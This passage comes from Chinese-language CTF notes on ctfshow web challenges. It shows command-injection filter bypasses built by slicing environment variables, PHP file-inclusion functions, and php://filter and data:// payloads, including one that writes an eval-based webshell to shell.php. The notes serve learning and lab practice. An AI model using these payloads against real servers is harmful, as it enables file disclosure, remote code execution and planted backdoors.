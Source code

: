

#### Linux系统变量剪裁构造

##### CTFSHOW 118

ban了很多指令，只能使用系统变量如：$PATH、$IFS等等
 但输出被禁用了，只能使用剪裁(切片)来构造指令输出flag

 如下为系统环境变量
 ![](https://i.loli.net/2021/09/22/XM3c9n4Plw67QaS.gif)

用`bin的n`和`html的l`构造`nl`：`${PATH:~A}${PWD:~A}`
 (~取反表示从最后面开始数，a相当于0)

 最终payload:

```
${PATH:~A}${PWD:~A}$IFS????.??? == nl flag.php
```



## 文件包含

服务器执行PHP文件时，可以通过文件包含函数加载另一个文件中的PHP代码，并且当PHP来执行

**PHP文件包含函数**：

1. include：
   - 包含并运行指定文件，在包含过程中出错会报错，**不影响**执行后续语句
2. include_once：
   - 仅包含一次文件。会检查文件是否被包含过，若已被包含则不会再次包含
3. require：
   - 在包含过程中出错，就会直接退出，**不执行**后续语句
4. require_once：
   - 和 require 完全相同，唯一区别是 PHP 会检查该文件是否已经被包含过，如果是则不会再次包含



### 伪协议的妙用

- 伪协议的运用：[伪协议的学习](https://na0h.cn/2021/02/25/php%E4%BC%AA%E5%8D%8F%E8%AE%AE/)、[PHP: 支持的协议和封装协议](https://www.php.net/manual/zh/wrappers.php)

  - 过滤器filter://读文件：`?file=php://filter/convert.base64-encode/resource=flag.php`

  - data://：
    某些字符串被过滤，可以使用data协议编码后传入
    如：php被替换为???，那么可以传入

    ```
    data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs
    ```

    > 例 ctfshow web87
    >
    > ![](https://i.loli.net/2021/09/23/nyPzASEuMIp4Wo6.png)
    >
    > 1. convert.base64-deconde
    >
    >    ```
    >    ?file=php://filter/write=convert.base64-decode/resource=shell.phpcontent=abPD9waHAgQGV2YWwoJF9SRVFVRVNUWzFdKT8+
    >    ```
    >
    > 
    >
    > 2. rot13
    >
    >    ```